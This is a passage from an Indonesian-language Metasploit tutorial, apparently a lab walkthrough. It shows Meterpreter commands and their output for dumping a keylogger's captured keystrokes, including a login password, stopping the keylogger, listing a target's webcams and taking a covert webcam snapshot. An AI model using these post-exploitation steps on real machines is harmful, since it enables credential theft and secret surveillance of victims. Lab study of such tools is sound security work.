    ```
   meterpreter > keyscan_dump 
   Dumping captured keystrokes...
   password login admin<Right Shift>: admin12345<^S>
   ```

3. Hentikan Keylogger:

   ```
   keyscan_stop
   ```

   Hasil output-nya seperti ini:

   ```
   meterpreter > keyscan_stop 
   Stopping the keystroke sniffer...
   ```

## F. Webcam (Ambil Gambar)

1. Cek Webcam yang Tersedia:

   ```
   webcam_list
   ```

   Hasil output-nya seperti ini:

   ```
   meterpreter > webcam_list 
   1: VirtualBox Webcam - Integrated Camera: Integrated C
   ```

2. Ambil Gambar (screenshot):

   ```
   webcam_snap
   ```

   Hasil output-nya seperti ini:

   ```
   meterpreter > webcam_snap
   [*] Starting...
   [+] Got frame
   [*] Stopped
   Webcam shot saved to: /root/yFrtbaER.jpeg
   ```

   Contoh gambar yang berhasil di capture dari webcam target:
